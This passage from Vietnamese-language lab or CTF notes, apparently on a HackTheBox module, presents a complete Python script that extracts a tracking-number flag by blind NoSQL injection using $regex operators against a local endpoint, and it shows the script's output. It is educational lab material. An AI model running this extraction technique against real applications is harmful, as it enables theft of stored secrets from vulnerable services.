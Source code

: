 6. **Code hoàn chỉnh**:
   - Đặt tất cả các phần lại với nhau:
     ```python
     #!/usr/bin/python3
     import requests
     import json

     # Oracle function
     def oracle(t):
         r = requests.post(
             "http://127.0.0.1/index.php",
             headers={"Content-Type": "application/json"},
             data=json.dumps({"trackingNum": t})
         )
         return "bmdyy" in r.text

     # Verify oracle function
     assert (oracle("X") == False)
     assert (oracle({"$regex": "^HTB{.*"}) == True)

     # Dump tracking number
     trackingNum = "HTB{"
     for _ in range(32):
         for c in "0123456789abcdef":
             if oracle({"$regex": "^" + trackingNum + c}):
                 trackingNum += c
                 break
     trackingNum += "}"

     # Verify tracking number
     assert (oracle(trackingNum) == True)
     print("Tracking Number: " + trackingNum)
     ```

7. **Chạy script**:
   - Chạy script trên để tự động trích xuất mã `trackingNum`.
   - Kết quả:
     ```
     time python3 mangopost-exploit.py
     Tracking Number: HTB{...SNIP...}
     real    0m23.006s
     user    0m0.419s
     sys     0m0.033s
     ```

---
# 7. Khai thác Server-Side JavaScript Injection (SSJI) trong MangoOnline
